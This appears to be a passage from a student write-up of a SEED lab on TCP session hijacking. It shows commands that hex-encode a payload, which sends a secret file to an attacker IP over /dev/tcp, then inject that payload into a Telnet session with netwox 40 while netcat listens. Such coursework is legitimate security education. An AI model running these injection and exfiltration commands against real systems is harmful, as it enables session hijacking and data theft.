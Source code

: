At first, we created a `secret` file in the directory `/home/seed` by executing the following command in "*VTM1*". 

```Shell
$ echo "this is secret" >> /home/seed/secret
```

And then, we followed the instructions in the task document to convert our command into ASCII encoding by Python below. We convert the command `cat /home/seed/secret > /dev/tcp/10.0.2.15/9090` into the encoded hex string, `0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d`

```Shell
$ python -c "print('\r cat /home/seed/secret > /dev/tcp/10.0.2.15/9090\r'.encode('hex'))"
```

In the converted command, we outputed the content of the secret file to a tcp socket binded with `10.0.2.15:9090`, which is the IP address of attacker. Therefore, we used `netcat` command below to receive the file.  

```Shell
$ nt -lv 9090
```

The image below shows outputs of all commands we executed during preparation. 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_054d2f90ec0b8c95f6340ba4a9cabf99.png"/>
<figcaption> Figure 4.1.2 The last captured Telnet package by Wireshark</figcaption><br>
</figure>

### 4.2 Attack by Netwox

Before launching attack, it was essential to know the sequence number for the next package. We used Wireshark to get all data there. The image below shows the last Telnet package we got from Wireshark. We prepared with the ip, port numbers given, which were 10.0.2.6:39172 (client) and 10.0.2.7:23 (Server). Also, we could use the above Seq number and Ack number. Finally, we set the flag as Ack and set the data with our reverse Shell code command like the following. 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_6f7b9de46e88b5bd5a0b62838cf1b2f3.png"/>
<figcaption> Figure 4.2.1 The last captured Telnet package by Wireshark</figcaption><br>
</figure>

Then, we used the `netwox 40` to launch the attack, and the image below shows the help document of it. 

<figure>
<img style="width:100%" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_0873f3d0f9a46b4ff4e7f0347ecc9658.png"/>
<figcaption> Figure 4.2.1 The help document of the netwox 40</figcaption><br>
</figure>


Then, we used the command below to steal the secret. 

```Shell
$ sudo netwox 40 \
    -l 10.0.2.6 -o 39172 \
    -m 10.0.2.7 -p 23 \
    -q 3144319184 -r 2594595218 -z \
    -j 64 -E 237 -H 0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f31302e302e322e31352f393039300d
```
